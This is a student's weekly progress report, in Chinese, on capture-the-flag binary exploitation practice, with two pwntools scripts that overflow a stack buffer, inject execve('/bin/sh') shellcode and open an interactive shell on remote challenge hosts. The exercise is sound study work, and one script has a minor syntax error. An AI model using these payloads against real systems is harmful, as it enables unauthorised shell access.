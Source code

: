 ```yaml
---
title: lyy
date: 2021-01-29 10:58:17
tags: gu
---
```


# 个人周报 
景禹淇 202012567

**本周工作：**  
1. buuctf刷题 
2. 理解malloc_hook与free_hook
  
**本周遇到的技术困难及解决方案：**  
1. 栈迁移时找不准偏移值  
   解决方案：多动调，多下了几个断点，最后发现可以直接将payload插入bss段，最后将栈迁移到bss段来get shell。
   
### 成果展示：
1. <font size=5>`stack1.exp`</font>
```python 
from pwn import *

context.os='linux' 
context.log_level = 'debug'
context.arch = 'amd64'

#p = process('./pwn5')
#gdb.attach(p,'b *0x00400FE8')
p=remote('47.103.222.216',9998)
p.recvuntil('gift to you : ')

stack=int(p.recv(15),16)
log.info(hex(stack))
p.recvuntil('> ')
p.sendline('1')
p.recvuntil('plz input : ')
shellcode="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"
pay=shellcode.ljust(0x128,'\x00')+p64(stack))
p.sendline(pay)
#pause()
p.interactive()
```
2. <font size=5>`stack2.exp`</font>
```python
from pwn import *
from LibcSearcher import *

context.os='linux' 
#context.arch='amd64' 
context.arch='i386'
context.log_level='debug' 

p=remote('nnode3.buuoj.cn',25755)
#p = process('./1')
#gdb.attach(p,'b *0x08048600')
elf = ELF('./1')
main=0x0040051D
sigret=0x04004DA
sys=0x00400501
#gdb.attach(p,"b *0x040051d")
shellcode="\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
#shellcode="\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"

p.recvuntil('crash: ')
stack=int(p.recv(10),16)
print hex(stack)
pay='crashme\x00'
pay=pay.ljust(0x16+0x4,('a'))
pay+=p32(stack-0x1c)
pay+=shellcode
p.sendline(pay)
#pause()

p.interactive()
```

### 下周安排
争取多刷几道堆题！！！
